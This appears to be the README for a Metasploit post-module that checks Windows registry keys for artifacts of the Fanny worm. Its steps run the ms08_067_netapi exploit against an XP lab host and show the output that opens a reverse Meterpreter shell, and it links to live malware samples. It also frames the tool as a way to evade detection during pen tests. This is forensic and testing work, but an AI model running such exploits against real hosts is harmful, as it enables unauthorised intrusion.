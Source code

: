 ## Vulnerable Application
Fanny or DWE for short. (DWE = DementiaWheel)

Detection module based on the post-/gather/forensics module duqu_check.rb,
Fanny is a worm that infects windows machines, via USB
(not trough Autorun, or at least not only).

in fact, It used exploits later found in StuxNet.
It creates creates some Registry artifacts.

This module is intended to detect those artifacts.

POC https://user-images.githubusercontent.com/68499986/102911824-e2678280-447c-11eb-8495-7180a52c7266.png


  #### supported Environments:
    - [x] Windows x86

  ####  supported SessionTypes:
    - [x]  Meterpreter
    - [x]  Shell

  #### supported OS's:
    - [x] Windows XP Pro (SP3)

-------------------------


## Verification Steps


- [x] First, Git clone the fanny_bmp_check.rb from https://github.com/loneicewolf/metasploit_fanny_check_module/blob/main/fanny_bmp_check.rb

- [x] place it into your msf folder, (important, check the following step before placing it) usually located in /root/.msf4/modules/

- [x] * make the following folders: (under each other) /post/windows/gather/forensics/ <fanny_bmp_check.rb here>

- [x] Start msfconsole

- [x] use exploit/windows/smb/ms08_067_netapi

- [x] set RHOST and LHOST.

- [x] msf6 exploit(windows/smb/ms08_067_netapi) > run

    [*] Started reverse TCP handler on 192.168.122.1:4444
    [*] 192.168.122.160:445 - Automatically detecting the target...
    [*] 192.168.122.160:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
    [*] 192.168.122.160:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
    [*] 192.168.122.160:445 - Attempting to trigger the vulnerability...
    [*] Sending stage (175174 bytes) to 192.168.122.160
    [*] Meterpreter session 4 opened (192.168.122.1:4444 -> 192.168.122.160:1043) at 2020-12-22 16:55:02 +0100

meterpreter > run post/windows/gather/forensics/fanny_bmp_check

    [*] Searching registry on WORKSTATION1 for Fanny.bmp artifacts.
    [+] WORKSTATION1: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\MediaResources\acm\ECELP4\Driver found in registry.
    [+] WORKSTATION1: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\MediaResources\acm\ECELP4\filter2 found in registry.
    [+] WORKSTATION1: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\MediaResources\acm\ECELP4\filter3 found in registry.
    [+] WORKSTATION1: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\MediaResources\acm\ECELP4\filter8 found in registry.
    [*] WORKSTATION1: 4 result(s) found in registry.

-------------------------

## Options

  No options
## Scenarios
Specific #demo


- [x] Start msfconsole

- [x] use exploit/windows/smb/ms08_067_netapi

- [x] set LHOST 192.168.122.1
- [x] set RHOST 192.168.122.160
- [x] set LPORT 4444

- [x] msf6 exploit(windows/smb/ms08_067_netapi) > run

    [*] Started reverse TCP handler on 192.168.122.1:4444 
    [*] 192.168.122.160:445 - Automatically detecting the target...
    [*] 192.168.122.160:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
    [*] 192.168.122.160:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
    [*] 192.168.122.160:445 - Attempting to trigger the vulnerability...
    [*] Sending stage (175174 bytes) to 192.168.122.160
    [*] Meterpreter session 4 opened (192.168.122.1:4444 -> 192.168.122.160:1043) at 2020-12-22 16:55:02 +0100

meterpreter > run post/windows/gather/forensics/fanny_bmp_check 

        [*] Searching registry on WORKSTATION1 for Fanny.bmp artifacts.
        [+] WORKSTATION1: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\MediaResources\acm\ECELP4\Driver found in registry.
        [+] WORKSTATION1: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\MediaResources\acm\ECELP4\filter2 found in registry.
        [+] WORKSTATION1: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\MediaResources\acm\ECELP4\filter3 found in registry.
        [+] WORKSTATION1: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\MediaResources\acm\ECELP4\filter8 found in registry.
        [*] WORKSTATION1: 4 result(s) found in registry.



### Typical Usage Scenario: Pen Test without being Detected

1 thing this could be used as, is (as with the duqu_check) to check,
if a target system (that you/your team is going to/will/plan to perform one or
more penetration tests on, already is infected by any of those, and it would
 probably make a nice looking "alert" to malware researchers who runs malwares
 into sandboxes and vms; (Because it would shortly make the system/vm
 more "targeted" if infected even more.


For example and if a VM(for example) is infected with Duqu,
Maybe it's not the most optimal 'thing' to infect it with anything
(else - in general, at all) By e.g Using metasploit,
(because, the system already is infected with
Duqu(if we take a Duqu Infected VM/System as an example),
Duqu - wich is kinda well known by now, will make the VM
(or if it is a real os, which still does happen) more suspected for malware.


### So, short story: the less malicious activity (the less "malware") on a system, the less detection risk is present.

I Will upload a POC video demonstrating this on Windows 10, x64. Sooner or later.
There's already a XP POC video located here
 - https://github.com/loneicewolf/fanny.bmp/blob/main/FannyMalware%20POC%20.mp4

"Equation Group Q&A PDF File" - Explaining (not only) Fanny, (but also many others, in the "same family" of malware)

 - https://github.com/loneicewolf/fanny.bmp/blob/main/Equation_group_questions_and_answers.pdf

If needed, I included malware samples on the same page.

 **It goes without saying that if you proceed to this page Please exercise caution.**

 - https://github.com/loneicewolf/fanny.bmp


-------------------------


## Version and OS

### Tested on

  - [x] Windows XP Pro SP3 English


-------------------------

## Contact info

Any questions or Improvements / Issues is welcomed either via mail or at the issues tab/page.
william-martens@protonmail.ch
